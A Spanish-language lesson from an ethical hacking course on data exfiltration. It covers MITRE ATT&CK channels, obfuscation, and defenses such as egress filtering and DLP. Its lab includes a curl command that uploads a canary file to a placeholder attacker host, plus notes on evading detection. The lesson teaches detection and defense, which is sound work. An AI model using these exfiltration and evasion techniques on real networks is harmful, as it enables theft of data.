

# Clase 083 — Exfiltración de datos

> Parte: **3 — Hacking ético y pentesting: metodología** · Fuente: *Penetration Testing* (Weidman) · MITRE ATT&CK — táctica *Exfiltration* (TA0010)
> ⏱️ Duración estimada: **120 min** · Nivel: **Avanzado**

---

> ⚠️ **Uso ético y legal.** Esta clase enseña a **entender y detectar** cómo un atacante saca datos de una red, para poder demostrarlo en un pentest autorizado y, sobre todo, **defenderse**. Practica únicamente en tu propio laboratorio o dentro del alcance firmado de un engagement. Extraer datos de sistemas ajenos es un delito grave.

## 🎯 Objetivo

Comprender la fase de exfiltración dentro del ciclo de un ataque: cómo se demuestra de forma controlada el impacto real de un compromiso (probar que "los datos podían salir") y, con la misma profundidad, **qué señales deja** y cómo un equipo defensivo (DLP, NSM, egress filtering) la detecta y la bloquea. El objetivo del pentester ético no es robar datos, sino **probar el riesgo y ayudar a cerrarlo**.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Ubicar** la exfiltración en la kill chain y en MITRE ATT&CK (TA0010) y distinguirla de la simple recolección (collection).
2. **Explicar** los canales de exfiltración comunes (HTTPS, DNS, ICMP, servicios cloud legítimos) y por qué unos son más sigilosos que otros.
3. **Demostrar** de forma controlada, en laboratorio, una transferencia mínima con un archivo *canario* (nunca datos reales/sensibles).
4. **Diseñar** controles defensivos: egress filtering, inspección TLS, DLP, límites de volumen y detección de tunneling.
5. **Documentar** el hallazgo en el informe con impacto de negocio y recomendaciones priorizadas.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|---|---|
| 1 | Exfiltración vs collection vs C2 | Son fases distintas; confundirlas lleva a detección tardía. |
| 2 | Canales: HTTP(S), DNS, ICMP, email, cloud | Cada canal tiene un perfil de detección diferente. |
| 3 | Exfiltración "over C2" vs canal alternativo | ATT&CK T1041 vs T1048; cambia la telemetría. |
| 4 | Ofuscación: cifrado, encoding, chunking | El atacante evade DLP basado en firmas. |
| 5 | Límites de tasa y "low and slow" | El volumen y la velocidad delatan; ir lento evade umbrales. |
| 6 | Detección: egress filtering y DLP | El control más efectivo es no dejar salir tráfico no autorizado. |
| 7 | Uso de un archivo canario | Cómo probar el riesgo sin tocar datos reales. |

## 🧠 Explicación en profundidad

### Tres fases que no son la misma, y confundirlas retrasa la detección

El robo de datos no es un acto único, y separarlo en fases es lo que permite detectarlo a
tiempo. La **recolección** (*collection*) reúne los datos dentro de la red del objetivo. El
**C2** (*command and control*) es el canal por el que el atacante controla el acceso. Y la
**exfiltración** es el acto de **sacar** los datos fuera. Son momentos distintos con
telemetría distinta, y un defensor que solo vigila uno llega tarde. MITRE ATT&CK incluso
distingue si la exfiltración va **sobre el canal de C2** (T1041) o por un **canal alternativo**
(T1048), porque cambia dónde hay que mirar.



### Cada canal tiene un perfil de detección distinto

La elección del canal de salida es una decisión sobre **qué defensa evadir**. **HTTP(S)** es
el más usado porque se confunde con la navegación normal y casi siempre está permitido de
salida; su tráfico cifrado además oculta el contenido a una DLP que no descifre. El **DNS**
—el *tunneling* de la [Clase 041](../../parte-1-redes-y-seguridad-de-redes/041-seguridad-de-dns-envenenamiento-dnssec-y-tunneling/README.md)— es el rey de la evasión de firewalls: como romper el DNS
saliente rompe todo, casi ninguna red lo bloquea, así que codificar datos en los nombres
consultados los saca de redes muy restringidas (a costa de ser lento). **ICMP** esconde datos
en el payload de los `ping`. Y los **servicios en la nube y el correo** usan una plataforma
legítima (un Dropbox, un Gmail) como tapadera, lo que hace el tráfico indistinguible de un uso
normal. No hay un canal "mejor": hay el que evade la defensa concreta que tiene el objetivo.

### Ofuscación y "low and slow": evadir por contenido y por volumen

Sobre cualquier canal, dos técnicas dificultan la detección. La **ofuscación** —cifrar,
codificar en base64, trocear (*chunking*) el fichero— evade la **DLP basada en firmas**, que
busca patrones reconocibles (un número de tarjeta, una cabecera de fichero): si el dato va
cifrado, no hay patrón que reconocer. Y el enfoque **low and slow** ataca el otro eje de
detección: como los sistemas alertan sobre **volumen** y **velocidad** anómalos (una subida de
gigabytes de golpe salta de inmediato), el atacante exfiltra despacio, en fragmentos pequeños y
espaciados, para quedar por debajo de los umbrales. Es la misma filosofía del spraying
aplicada a la salida de datos: paciencia contra detección.

### La defensa que de verdad funciona: no dejar salir

La contramedida más efectiva es también la más incómoda de implementar: el **egress
filtering**, es decir, controlar y restringir el tráfico **saliente**. La mayoría de las
organizaciones filtran con cuidado lo que **entra** y dejan salir casi cualquier cosa, y esa
asimetría es justo lo que la exfiltración explota. Una red que solo permite salir a destinos
aprobados y por protocolos concretos convierte casi todos los canales anteriores en callejones
sin salida. La **DLP** (inspección de contenido) complementa buscando datos sensibles en
tránsito, aunque el cifrado la limita. Y para **probar el riesgo sin tocar datos reales** —una
exigencia ética del engagement— se usa un **archivo canario**: un fichero señuelo, marcado y
sin valor, cuya salida se intenta exfiltrar para demostrar que el canal existe y medir si la
defensa lo detecta, sin extraer ni un dato auténtico del cliente. Ese es el método correcto:
demostrar la capacidad, no ejercerla sobre información real.

## 📖 Definiciones y características

**Exfiltración de datos**
: Táctica en la que un actor transfiere datos fuera de la red objetivo. Característica clave: en un pentest **ético** se demuestra con datos ficticios/canario, nunca con información real del cliente.

**Egress filtering**
: Control que restringe el tráfico *saliente* a solo lo estrictamente necesario (puertos, destinos, protocolos). Es la contramedida más eficaz: si el tráfico no puede salir, no hay exfiltración.

**DLP (Data Loss Prevention)**
: Conjunto de tecnologías que inspeccionan datos en movimiento/reposo/uso para bloquear la salida de información sensible según políticas (patrones de tarjetas, PII, clasificación).

**DNS tunneling**
: Técnica que codifica datos dentro de consultas/respuestas DNS para sacarlos aprovechando que el puerto 53 casi siempre está permitido. Se detecta por longitud/entropía anómala de subdominios y volumen de consultas.

**Archivo canario (honeytoken de datos)**
: Fichero de prueba, marcado y sin valor real, que se usa para demostrar que un canal de salida funciona sin exponer datos del cliente.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Collection | Reunir los datos dentro de la red objetivo |
| C2 (command and control) | Canal por el que el atacante controla el acceso |
| Exfiltración | Acto de sacar los datos fuera de la red |
| T1041 vs T1048 | Exfiltrar sobre el C2 o por un canal alternativo |
| Staging | Comprimir, cifrar y trocear antes de exfiltrar |
| Canal HTTP(S) | Se mezcla con la navegación; oculta contenido con TLS |
| Exfiltración por DNS | Codificar datos en los nombres; atraviesa firewalls |
| Túnel ICMP | Datos ocultos en el payload de los ping |
| Ofuscación | Cifrar, codificar o trocear para evadir DLP por firmas |
| Chunking | Fragmentar el dato en trozos pequeños |
| Low and slow | Exfiltrar despacio para evadir umbrales de volumen |
| Egress filtering | Restringir el tráfico saliente; la defensa más eficaz |
| DLP | Inspección de contenido para detectar datos sensibles |
| Archivo canario | Fichero señuelo para probar el riesgo sin datos reales |

## 🧰 Herramientas y preparación

Laboratorio aislado (dos VMs: "atacante" y "víctima" bajo tu control, ambas tuyas). Herramientas de estudio: `tcpdump`/Wireshark para observar el canal, un servidor HTTP propio para el destino, y utilidades de red estándar. Del lado defensivo: reglas de egress en el firewall del lab (iptables/pfSense), y opcionalmente Zeek para ver los logs de DNS/HTTP. **Nunca** uses datos reales; genera un archivo canario:

```bash
# En la VM víctima (tuya): crear un archivo canario, sin datos reales
echo "CANARIO-PENTEST-$(date +%s) — dato ficticio de laboratorio" > /tmp/canario.txt
```

## 🧪 Laboratorio guiado

> Todo ocurre entre **dos máquinas tuyas** en una red aislada. El fin es observar la telemetría y luego **bloquearla**.

1. **Preparar el destino (tu VM atacante).** Levanta un receptor HTTP simple:

   ```bash
   python3 -m http.server 8000    # receptor simple: devuelve 501 al POST, pero el tráfico (lo que capturamos) viaja igual
   ```

2. **Observar el canal.** En la VM víctima, arranca la captura para ver exactamente qué viaja:

   ```bash
   sudo tcpdump -i eth0 -w /tmp/exfil-lab.pcap host <IP_atacante>
   ```

3. **Transferir el canario (demostración de impacto).** Sube el archivo ficticio por HTTP:

   ```bash
   curl -F "f=@/tmp/canario.txt" http://<IP_atacante>:8000/upload
   ```

4. **Analizar como defensor.** Abre `exfil-lab.pcap` en Wireshark: identifica el tamaño, el destino, el protocolo y el patrón temporal. Anota qué firma detectaría esto.
5. **Simular DNS tunneling (solo para verlo en logs).** Genera consultas con subdominios largos hacia tu propio resolvedor de laboratorio y observa en Zeek/`dns.log` la anomalía de longitud/entropía. Documenta la firma detectable.
6. **Cerrar el canal (la parte que importa).** Aplica egress filtering en el firewall del lab para permitir solo lo necesario y repite el paso 3: la transferencia debe **fallar**.

   ```bash
   # Ejemplo conceptual de política por defecto restrictiva (lab):
   iptables -P OUTPUT DROP
   iptables -A OUTPUT -p udp --dport 53 -d <DNS_interno> -j ACCEPT
   iptables -A OUTPUT -p tcp --dport 443 -d <proxy_corporativo> -j ACCEPT
   ```

7. **Redactar el hallazgo.** Escribe 1 párrafo de impacto + 3 recomendaciones (egress filtering, DLP, monitoreo de DNS).

## ✍️ Ejercicios

1. Clasifica en MITRE ATT&CK: ¿T1041 (over C2) o T1048 (alternative protocol)? Justifica con un ejemplo de cada uno.
2. Explica por qué DNS e ICMP son canales atractivos para un atacante y qué control los neutraliza.
3. Diseña una regla de detección (pseudo-Sigma) para "consulta DNS con subdominio > 50 caracteres y alta entropía".
4. Calcula cuánto tardaría una exfiltración "low and slow" de 1 GB a 1 KB cada 5 min, y por qué esa lentitud evade umbrales de volumen.
5. Propón una política de egress filtering mínima para un servidor que solo debe hablar con un repositorio interno.

## 📝 Reto verificable

Monta el canal HTTP del laboratorio, captura el tráfico, **luego** aplica egress filtering y demuestra que la transferencia del canario ahora falla.

**Criterio de aceptación:** entregas (a) el `.pcap` con la transferencia inicial identificada, (b) la regla de egress aplicada, y (c) una captura/log que evidencia el bloqueo posterior. Todo con el archivo canario ficticio; cero datos reales.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|---|---|
| Usar datos reales del cliente para "demostrar" | Nunca. Usa siempre un archivo canario ficticio. La demostración de que el canal existe es suficiente. |
| El firewall del lab no bloquea nada tras `-P OUTPUT DROP` | Faltan reglas de estado; añade `-A OUTPUT -m state --state ESTABLISHED,RELATED -j ACCEPT` con cuidado, o revisa el orden de las reglas. |
| DNS tunneling "no se ve" en los logs | No estás registrando consultas DNS; habilita el `dns.log` de Zeek o el logging del resolvedor. |
| Confundir C2 con exfiltración en el informe | El C2 es el canal de control; la exfiltración es la salida de datos. Sepáralos en la narrativa. |
| Asumir que TLS = indetectable | El metadato (destino, volumen, JA3, timing) sigue siendo visible aunque el contenido esté cifrado. |

## ❓ Preguntas frecuentes

**❓ ¿Debo exfiltrar datos reales para probar el riesgo al cliente?**
No. Basta con demostrar que el canal funciona usando un archivo canario. Extraer datos reales añade riesgo legal y de exposición sin aportar valor.

**❓ ¿Cuál es la defensa número uno?**
El *egress filtering*: por defecto denegar todo el tráfico saliente y permitir solo lo imprescindible. Complementado con DLP y monitoreo de DNS.

**❓ ¿Por qué se estudia esto en un curso defensivo?**
Porque no puedes detectar ni bloquear lo que no entiendes. Conocer los canales y sus huellas es lo que permite escribir buenas detecciones.

## 🔗 Referencias

- MITRE ATT&CK — [Exfiltration (TA0010)](https://attack.mitre.org/tactics/TA0010/)
- MITRE ATT&CK — [T1048 Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- Weidman, G. — *Penetration Testing: A Hands-On Introduction to Hacking*.
- SANS — lecturas sobre *DNS tunneling detection* y egress filtering.

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-083-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-083-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 082 — Persistencia en sistemas comprometidos](../082-persistencia-en-sistemas-comprometidos/README.md)

## ➡️ Siguiente clase

[Clase 084 — Anti-forense y borrado de huellas (concepto y límites)](../084-anti-forense-y-borrado-de-huellas-concepto-y-limites/README.md)
